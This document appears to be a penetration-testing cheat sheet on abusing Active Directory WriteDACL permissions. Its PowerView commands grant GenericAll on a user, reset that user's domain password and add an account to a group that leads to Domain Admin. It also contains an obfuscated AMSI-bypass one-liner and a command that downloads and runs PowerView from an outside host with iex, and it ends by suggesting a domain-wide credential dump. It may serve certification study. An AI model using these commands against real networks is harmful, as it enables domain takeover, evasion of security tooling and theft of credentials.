 # Abusing WriteDACL

## Using PowerView Add-DomainObjectAcl

1. Enumerate misconfigured user accounts.

```PowerShell
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

If our user has WriteDACL access, it allows us to add new access rights like GenericAll.

2. Using the Add-DomainObjectAcl PowerView module add GenericAll rigth.

```PowerShell
PS C:\> Add-DomainObjectAcl -TargetIdentity devservice1 -PrincipalIdentity v0lk3n -Rights All
```

Although the method is called Add-DomainObjectAcl, it will actually modify the current ACE if an entry already exists.

3. After attempting to modify the DACL, we'll dump it again to verify that GenericAll was applied correctly.

```PowerShell
PS C:\> Get-ObjectAcl -Identity devservice1 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Now we can proceed to change it's password

```bash
net user devservice1 h4x /domain
```

Although enumerating access rights for our current user is benefical, we can also map out all access rights to locate other user accounts or groupts that can lead to compromise.

## Using PowerView AddDomainGroupMember 

![alt text](https://github.com/V0lk3n/OSEP-CheatSheet/blob/main/ActiveDirectoryAndExploit/WriteDACL-Exploitation/img/bloodhound-writedacl.png?raw=true)

We can see that the Domain Group "SQL Admin" have WriteDACL right against "WebAdmins" group. And WebAdmins group is member of Domain Admin, so if we are part of WebAdmins we are DA.

Assuming that we got an user inside the SQL Admin group, we can exploit the WriteDACL right to add an user that we already have access, to the WebAdmins group to become DA.

1. As user of SQL Admin group add an user that we already have access to, to the Web Admins group giving him all rights.

```bash
# As the user of SQL Admin group
C:\>powershell.exe -nop -exec bypass

PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS C:\> (new-object system.net.webclient).downloadstring('http://192.168.x.x:8080/PowerView.ps1') | iex

PS C:\> Add-DomainGroupMember -Identity 'WEBADMINS' -Members 'V0lk3n' -Rights all
```

2. Verify that V0lk3n is part of WebAdmins group.

```PowerShell
PS C:\> Get-DomainUser -Identity V0lk3n
Get-DomainUser -Identity V0lk3n
...
givenname             : V0lk3n
memberof              : CN=WebAdmins,OU=TGroups,DC=sinhack,DC=com
...
```

3. Now as DomainAdmin we can fire up SecretDump or whatever and pwn all the domain.
